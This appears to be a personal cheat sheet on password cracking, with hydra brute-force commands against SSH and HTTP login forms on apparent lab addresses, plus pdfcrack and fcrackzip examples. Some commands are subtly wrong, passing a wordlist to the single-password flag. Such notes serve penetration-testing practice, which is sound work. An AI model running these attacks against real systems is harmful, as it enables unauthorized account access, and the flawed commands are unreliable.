 ```yaml
---
title: "[Services] Basic login crack tools"
published: 2024-04-12
description: 'Crack login service or file through brute force'
tags: [Security, Buster, Services]
category: Buster
draft: false
---
```


# [Services] hydra

Tools for guess login to `services` like `SSH`, `FTP` and `RDP`

## Avaiable wordlists
- `/usr/share/wordlists/metasploit`
- `/usr/share/wordlists/rockyou.txt` for username

## Basic usage
```bash
hydra -l <username> -p <password> <server> <service>
```

### Guess the username to linux machine
```bash
hydra -L users.txt -p butterfly 10.10.137.76 ssh
```

### Guess the `username` to linux machine
```bash
hydra -L users.txt -p butterfly 10.10.137.76 ssh
```

### Guess the `password` to linux machine
- Using `rockyou.txt` as password
```bash
hydra -l root -p /usr/share/wordlists/rockyou.txt 10.10.137.76 ssh
```

### Specific threads
- Guess the `password` to linux machine, and specific the number of threads to 4
```bash
hydra -l root -p /usr/share/wordlists/rockyou.txt 10.10.137.76 -t 4 ssh
```

### Specific HTTP post
- With action = `/login` POST, and the input name is `username` and `password`.  
- Tell it's wrong if `Your username or password is incorrect.` appares on the website.  

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
    10.10.156.82 http-post-form \
    "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect." -V
```

### Guess ssh
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.156.82 -t 4 ssh
```


# [PDF] pdfcrack
PDFCrack is a simple tool for recovering passwords from pdf-documents.

```bash
pdfcrack -f <file_name>
```

```bash
pdfcrack -f <file_name> -w <location_of_wordlist_file>
pdfcrack -f <file_name> -w /usr/share/wordlists/rockyou.txt
```

# [ZIP] Fcrackzip 
Fcrackzip is a password cracking tool for ZIP files.  
Fcrackzip cracks the password by Brute-Force Attack or by a Dictionary Attack.  

```bash
fcrackzip -v -b -u <file_name.zip>
```

```bash
fcrackzip -v -u -D -p <path_to_wordlist_file> <file_name.zip>

fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt <file_name.zip>
```